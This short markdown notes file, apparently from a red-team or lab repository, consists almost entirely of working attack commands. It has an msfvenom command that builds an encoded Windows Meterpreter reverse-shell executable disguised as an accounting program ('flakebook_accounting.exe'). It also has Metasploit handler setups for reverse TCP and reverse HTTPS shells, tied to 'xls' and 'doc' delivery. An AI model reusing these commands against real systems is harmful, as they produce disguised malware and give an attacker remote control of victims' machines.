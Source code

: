 ## payloads
```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.254.201 LPORT=9999 -f exe -o flakebook_accounting.exe -e x86/shikata_ga_nai
# migrate to 64 bit with msfconsole migrate
```
## xls meterpreter setup
```bash
use exploit/multi/handler
set payload windows/meterpreter_reverse_tcp
set LHOST 10.0.254.201
set LPORT 9999
run
```
## doc meterpreter setup
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 10.0.254.201
set LPORT 443
run
```


